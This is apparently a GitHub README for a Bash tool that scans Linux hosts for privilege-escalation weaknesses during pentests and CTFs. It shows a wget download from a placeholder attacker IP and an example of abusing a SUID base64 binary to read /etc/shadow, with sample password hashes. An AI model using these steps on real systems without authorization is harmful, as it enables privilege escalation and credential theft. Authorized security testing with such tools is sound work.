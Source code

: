 # Linux PrivEsc Checker

A simple Bash script to automate the search for common Linux privilege escalation vectors.

This script is designed to be lightweight and easy to upload to a target machine during a penetration test or CTF to quickly enumerate potential weaknesses.

## 🚀 Demo

Here is the script in action, identifying a SUID binary (`base64`) and other potential vectors.

![1_bN3zjoU7L6Ps54N9oecrqw](https://github.com/user-attachments/assets/b897ad23-a8a5-4443-acb0-0f64ff21a68f)

## ✨ Features

This script automatically hunts for:

  * **🕵️‍♂️ SUID Binaries:** Scans for suspicious SUID binaries (like `base64`, `nmap`, `find`, etc.) that can be used to escalate privileges.
  * **⚙️ Linux Capabilities:** Searches for binaries with dangerous capabilities (e.g., `cap_sys_admin`, `cap_setuid`).
  * **📁 NFS Exports:** Checks `/etc/exports` for insecure `no_root_squash` configurations.
  * **⏰ Writable Cron Jobs:** Looks for `root` cron jobs that execute scripts or binaries in writable locations.
  * **🛡️ Vulnerable Versions:** Performs a basic check against known vulnerable versions of `sudo` and the Kernel.

## 💻 Usage

### 1\. Clone the Repository

```bash
git clone https://github.com/MS-0x404/Linux-PrivEsc-Checker.git
cd Linux-PrivEsc-Checker
chmod +x privesc.sh
./privesc.sh
```

### 2\. On Target Machine

This is the recommended method for use during a pentest, as seen in the demo video.

1.  Navigate to a writable directory (e.g., `/tmp`):

    ```bash
    cd /tmp
    ```

2.  Download the script from a web server you control (e.g., Python's `http.server`):

    ```bash
    wget http://YOUR-ATTACKER-IP:8000/privesc.sh
    ```

3.  Make it executable:

    ```bash
    chmod +x privesc.sh
    ```

4.  Run it\!

    ```bash
    ./privesc.sh
    ```

## 💡 Example: SUID Exploit

In the demo video, the script identifies `/usr/bin/base64` as having the SUID bit set.

Because the binary runs as `root`, it can be used to read sensitive files, such as `/etc/shadow`, which is normally only readable by root.

```bash
$ ./privesc.sh

    [...]
    Ricerca Privilege Escalation...

[+] Possibile PrivEsc tramite SUID:
  └─ /usr/bin/base64
[+] Possibile PrivEsc tramite Capabilities:
  └─ /usr/bin/python3.13 cap_setuid=eip
[-] Nessuna PrivEsc tramite NFS
[...]
```

**Exploitation:**

```bash
$ base64 /etc/shadow | base64 -d
ubuntu:$y$j9T$vTJesvSYgTtcVv//OGDCPytz0b$HVjAkS46CYIilgc..:19999:7:::
daemon:*:19193:0:99999:7:::
...
test:$y$j9T$vTJesvSYgTtcVv//OGDCPytz0b$HVjAkS46CYIilgc..:19999:7:::
```

-----

## ⚠️ Disclaimer

This tool is intended for **educational and authorized testing purposes ONLY**. Do not use this script on any system you do not have explicit permission to test. The author is not responsible for any misuse or damage caused by this script.
